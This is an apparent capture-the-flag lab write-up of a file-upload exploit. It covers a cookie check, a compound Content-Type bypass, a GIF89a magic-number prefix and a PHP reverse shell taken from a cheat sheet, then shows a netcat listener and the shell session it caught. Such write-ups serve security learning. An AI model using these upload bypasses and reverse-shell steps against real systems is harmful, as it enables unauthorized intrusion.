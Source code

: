 ### You are an exploit
Of course `isHuman` cookie have to be set to `1`.

### Content-Type
Getting the example from Hacktrick's [Bypassing Content-Type](https://book.hacktricks.xyz/pentesting-web/file-upload#bypass-content-type-and-magic-number), I'm sending the compound `Content-Type: image/png, text/plain, application/octet-stream`.

### Magic Number
Original GIF header looked overcomplicated, so I went with simple `GIF89a`

### PHP Reverse Shell
For the reverse shell I'm using the code I've been using on other boxes before (sourced from [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)).

### Port
Although the port is not specified in the original PoC, I've tried with 4444, 4445 and I couldn't make it work. What solved the issue was using the _legit_ port like 443.

### Reading the file
This part is unnecessary if the reverse shell script will be left on the system, as it can be executed requesting the file ex. by browsing the file from the browser.

## Execution

After the script is prepared, and it is verified that it is indeed uploading, we are making ourselves a nice reverse shell with the `netcat`.

```sh
$ nc -lvnp 443

listening on [any] 443 ...
```

After the reverse shell is requested:

```text
$ nc -lvnp 443

listening on [any] 443 ...
connect to [XX.XX.XX.XXX] from (UNKNOWN) [10.10.184.247] 59024
/bin/sh: 0: can't access tty; job control turned off
$ ls
file.png.php
file.png.php5
file2.png.php
file3.png.php
file4.gif.php
file4.png.php
file5.gif.php
file6.gif.php
file7.gif.php
file8.gif.php
she_ll2.gif
usrimg.png
```
